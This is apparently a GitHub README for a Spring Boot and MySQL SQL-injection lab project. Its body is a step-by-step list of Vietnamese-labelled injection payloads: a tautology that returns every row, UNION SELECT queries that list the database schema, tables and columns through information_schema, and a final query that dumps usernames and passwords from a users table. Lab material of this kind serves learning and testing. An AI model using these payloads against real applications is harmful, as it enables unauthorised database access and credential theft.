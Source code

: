 # DatabseInjection
## SPRING BOOT PROJECT
Use MySQL database, the structure of database as the image below(like SecurityandEncryption project absolutely)


----lấy ra tất cả các trường: 
	'' or 1='1'




----------lấy ra tên của database: 
		''union select 3,table_schema,4 from information_schema.tables union select 5,'6',7
			
		

----------lấy ra tên của bảng: 
	     ''union select 3,table_name,4 from information_schema.tables where table_schema='applicationdomain' union select 5,6,'7'
	

-----------lấy ra các trường trong bảng: 
		''union select 3,column_name,4 from information_schema.columns where table_name='users' union select 5,6,'7'
--------------lấy ra đầy đủ tài khoản: 
		''union all select 3,username,password from applicationdomain.users union all select 5,'6','7'
    
![diagram](https://user-images.githubusercontent.com/64321224/127884163-5ba7373c-0a7b-4bad-935a-943df2fcd676.png)

